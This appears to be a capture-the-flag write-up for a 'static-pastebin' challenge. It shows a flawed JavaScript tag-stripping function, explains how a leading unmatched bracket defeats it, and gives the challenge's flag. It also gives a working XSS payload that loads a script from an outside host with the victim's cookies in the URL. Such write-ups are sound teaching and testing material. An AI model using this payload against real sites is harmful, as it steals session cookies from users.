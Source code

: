 # static-pastebin

Source: [script.js](./script.js)

```js
function clean(input) {
	let brackets = 0;
	let result = "";
	for (let i = 0; i < input.length; i++) {
		const current = input.charAt(i);
		if (current == "<") {
			brackets++;
		}
		if (brackets == 0) {
			result += current;
		}
		if (current == ">") {
			brackets--;
		}
	}
	return result;
}
```

The script appears to clean our input by stripping tags. However, there is a flaw. If we include an unmatched close bracket at the beginning of our exploit, the clean function will allow us to include html tags unchanged. The rest of the exploit is classic XSS in order to steal the admin cookies.

Final Exploit:

```html
><img src="" onerror="a=document.createElement('script'),a.setAttribute('src','https://example.com/x.js?cookie='+document.cookie),document.body.appendChild(a)" />
```

Flag: `flag{54n1t1z4t10n_k1nd4_h4rd}`
